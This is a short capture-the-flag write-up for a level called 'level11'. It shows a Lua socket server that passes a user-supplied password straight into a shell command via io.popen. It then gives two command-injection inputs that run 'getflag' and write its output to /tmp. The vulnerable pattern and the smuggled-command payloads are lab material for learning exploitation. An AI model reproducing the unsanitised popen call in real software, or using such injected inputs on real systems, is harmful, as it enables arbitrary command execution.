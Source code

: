 # Start

![](ls.webp)

*level11.lua*
```lua
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end

  end

  client:close()
end
```

As we can see this script run on `localhost:5151`, once connected to it a password is asked. Then the password is hashed through bash `echo [password] | sha1sum` and then the script either return "Erf nope.." or "Gz you dump".
This is quite easy to solve. We need to adjust the password so that getflag is executed and stored somewere.

So something like that:
- pass = `$(getflag >/tmp/flag11)` => `echo $(getflag >/tmp/flag11) | sha1sum`
- pass = `""; getflag >/tmp/flag11; echo ""` => `echo ""; getflag >/tmp/flag11; echo "" | sha1sum`

![](solved.webp)